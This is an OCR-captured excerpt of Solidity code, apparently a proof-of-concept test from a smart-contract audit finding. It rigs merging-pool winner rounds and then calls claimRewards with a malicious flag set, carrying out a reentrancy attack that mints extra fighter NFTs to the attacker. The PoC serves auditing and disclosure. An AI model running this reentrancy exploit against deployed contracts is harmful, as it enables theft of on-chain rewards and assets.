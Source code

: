 ```solidity
303:         //Skip rounds 0 to 1
304:         _mergingPoolContract.updateWinnersPerPeriod(0);
305:         for (uint256 i; i <= 1; i++) {
306:             _mergingPoolContract.pickWinner(emptyArray);
307:         }
308:
309:         //Update and pick winners for round 2 (for simplicity only attacker now i.e. this address)
310:         uint256[] memory winnerForRound2 = new uint256[](1);
311:         winnerForRound2[0] = 0; // Attacker has tokenId 0
312:         _mergingPoolContract.updateWinnersPerPeriod(1);
313:         _mergingPoolContract.pickWinner(winnerForRound2);
314:
315:         //Skip rounds 3 to 4
316:         _mergingPoolContract.updateWinnersPerPeriod(0);
317:         for (uint256 i; i <= 1; i++) {
318:             _mergingPoolContract.pickWinner(emptyArray);
319:         }
320:
321:         //Update and pick winners for round 5 (for simplicity only attacker now i.e. this address)
322:         uint256[] memory winnerForRound5 = new uint256[](1);
323:         winnerForRound5[0] = 0; // Attacker has tokenId 0
324:         _mergingPoolContract.updateWinnersPerPeriod(1);
325:         _mergingPoolContract.pickWinner(winnerForRound5);
326:
327:
328:         //Skip rounds 6 to 9 to make current roundId = 10 as per POC
329:         for (uint256 i; i <= 4; i++) {
330:             _mergingPoolContract.updateWinnersPerPeriod(0);
331:             _mergingPoolContract.pickWinner(emptyArray);
332:         }
333:
334:         console.log("Attacker's claimable balance:", _mergingPoolContract.getUnclaimedRewards(address(this)));
335:
336:         //Attacker's contract account launches attack by calling claimRewards()
337:         maliciousCall = true;
338:         string[] memory _modelURIs = new string[](2);
339:         _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
340:         _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
341:         string[] memory _modelTypes = new string[](2);
342:         _modelTypes[0] = "original";
343:         _modelTypes[1] = "original";
344:         uint256[2][] memory _customAttributes = new uint256[2][](2);
345:         _customAttributes[0][1] = uint256(1);
346:         _customAttributes[0][0] = uint256(80);
347:         _customAttributes[1][0] = uint256(1);
348:         _customAttributes[1][1] = uint256(80);
349:         _mergingPoolContract.claimRewards(_modelURIs, _modelTypes, _customAttributes);
350:
351:         console.log("Attacker's balance after reentrancy attack:", _fighterFarmContract.balanceOf(address(this)));
352:     }
```
